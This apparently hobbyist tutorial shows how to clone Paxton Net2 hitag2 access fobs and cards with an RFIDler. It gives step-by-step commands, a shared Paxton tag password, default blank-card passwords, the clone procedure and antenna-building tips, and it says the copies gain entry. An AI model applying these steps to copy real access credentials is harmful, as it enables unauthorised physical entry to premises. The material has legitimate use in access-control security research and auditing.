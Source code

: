 # How to copy, read and write Paxton fobs and cards with an RFIDler

Paxton fobs and readers are popular in the UK especially the Net2 system where the fobs look like this with a blue ring.
![Paxton Fob](https://gist.githubusercontent.com/natmchugh/18e82761dbce52fa284c87c190dc926f/raw/fob.jpg "Paxton Fob")

Readers often look like this

![Paxton Reader](https://gist.githubusercontent.com/natmchugh/18e82761dbce52fa284c87c190dc926f/raw/reader.jpg "Paxton Reader")


This how to covers how to read an exisiting tag and write data to another tag. If that tag has been authorised for entry the new tag will be able to gain entry and will be seen by the reader be the same tag effetively a clone. You can copy cards to fobs and fobs to cards.

## Equipment
* An RFIDLer avialable here from one of the tools authors http://rfidiot.org/
* Enamelled copper wire I used 33swg or ~0.25 mm
* Some Paxton fobs or hitag2 cards
* (optional) a soldering iron but you my be able to get away without one

These Paxton fobs use hitag2 technology and can be copied to hitag2 cards and fobs etc.

## Antennas
The RFIDler comes with a coil antenna that is very good for reading cards and sniffing readers. It does not however do well with other tag form factors. In order to read and write to a Paxton fob I had to wind my own antenna. This is covered further down.

## Reading a card

First we need to set the RFIDLer to hitag2 cards config
```
set tag hitag2
OK 
*HITAG2> save
OK
HITAG2> 
```
Next we need to try reading the tag serial number. This is readonly and cannot be changed but it is not used in identifying access. It can be read without knowing the password and logining into the tag and is also known as page 0.

```
HITAG2> READER
12345678
12345678
12345678
```
You should get the tag serial number being repeated continously which means there is a good strong signal. If you don't then adjust the tag coil position until you do.

The next step is to login to the tag that is get passed the tags auth.

```
HITAG2> login BDF5E846
06F907C2
```
The response is the config bit and tag password. This is held on page 2 of the tag and is the same for all Paxton fobs I tested.

Once you have logged in you can now read the 8 pages of data.

```
HITAG2> read 0
0: 12345678
HITAG2> read 1
1: BDF5E846
…
```

repeat up to page 7
Once you have this data you have all the info you need to clone the tag. The important pages are 4-7 these contain the data on which the system identifes for access.

## Can I Emulate a Paxton fob?
Not currently with an RFIDler. The data flow is more complicated than some other tags involving a back and forth of commands the reader could send. The chips in hitag2 cards handle these commands really well. Why not just use one of those i.e. clone to a hitag2 card.

## Writing a Fob

To write a fob you need to load your fob data into the virtual tag or vtag.
```
set tag hitag2
VWRITE 1 BDF5E846......

```

Check the contents of the VTAG

```
VTAG
```

If you are happy with the data as shown in the VTAG then you can clone onto another tag

```
CLONE <BDF5E846|4D494B52 >
```

The password used to clone the card at the end depends on where you got the card from. A new blank hitag2 card should have the password 4D494B52. If a tag has been set up for Paxton readers previously it will have the password BDF5E846.

## Creating a DIY antenna for Paxton fobs

I was able to read and write genuine Paxton fobs by creating a coil antenna that allowed the fob to placed inside. I estimated the inductuctance at 200µH. This suggested that with a coil diameter of 2cm roughly 120 turns would give similar impedance.

My top tip for winding the antenna would be to use super glue to get the intial loops on and secure them at the correct height.

![Antenna](https://gist.githubusercontent.com/natmchugh/18e82761dbce52fa284c87c190dc926f/raw/antenna/fob.jpg "Antenna")
